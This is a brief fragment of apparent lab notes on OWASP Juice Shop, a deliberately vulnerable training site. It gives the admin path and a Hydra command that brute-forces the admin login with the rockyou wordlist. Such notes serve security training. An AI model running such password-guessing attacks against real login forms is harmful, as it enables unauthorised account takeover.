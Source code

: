 1-	The admin path  (https://juiceshop.herokuapp.com/#/administration)  
![{C5EB1965-CD9A-44E5-AD11-74A08718781B}](https://github.com/user-attachments/assets/1516fbdb-efe2-4b2e-a878-2ff7e3905850)



(hydra -l admin@juice-sh.op -P  /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form  
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F 
